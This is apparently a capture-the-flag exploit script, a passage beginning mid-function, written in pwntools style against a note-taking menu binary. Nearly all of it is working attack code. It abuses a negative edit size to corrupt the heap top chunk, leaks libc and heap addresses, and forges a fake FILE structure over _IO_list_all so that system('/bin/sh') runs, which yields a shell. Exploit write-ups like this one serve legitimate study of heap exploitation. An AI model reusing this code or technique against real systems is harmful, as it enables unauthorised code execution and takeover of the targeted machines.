 ```bash
    sl(b"1")
    ru(b"How long is your note?")
    sl(str(size))
    ru(b"Please write your note now:")
    s(data)

def show():
    ru(b"Input your choice >> \n")
    sl(b"2")


def edit(idx,size,data):
    ru(b"Input your choice >> \n")
    sl(b"3")
    ru(b"Which note do you want to change?")
    sl(str(idx))
    ru(b"Please input the size of your note:")
    sl(str(size))
    ru(b"Please write your new note:")
    s(data)


add(0x20,b"aaaa")
edit(0,-1,p64(0)*5+p64(0xfd1))
add(0x1000,b"a")
#dbg()
add(0x400,b"b"*8)

show()
ru(b"b"*8)
main_arena = uu64(r(6))
libc_base = main_arena-1640-0x10-libc.sym['__malloc_hook']
io_list_all = libc_base+libc.sym["_IO_list_all"]
system = libc_base+libc.sym["system"]
print("libc_base: ",hex(libc_base))
print("io_list_all: ",hex(io_list_all))

edit(2,-1,b"c"*0x10)

show()
ru(b"c"*0x10)
heap_addr = uu64(r(6))-0x30
print("heap_addr: ",hex(heap_addr))

payload = b"a"*0x400
fake = b"/bin/sh\x00"+p64(0x61)
fake += p64(0)+p64(io_list_all-0x10)
fake += p64(0)+p64(1)
fake = fake.ljust(0xd8,b"\x00")
fake += p64(heap_addr+0x520)
fake += p64(0)*3+p64(system)
payload += fake

edit(2,-1,payload)

ru(b"Input your choice >> \n")
sl(b"1")
ru(b"How long is your note?")
sl(str(0x10))

itr()
```
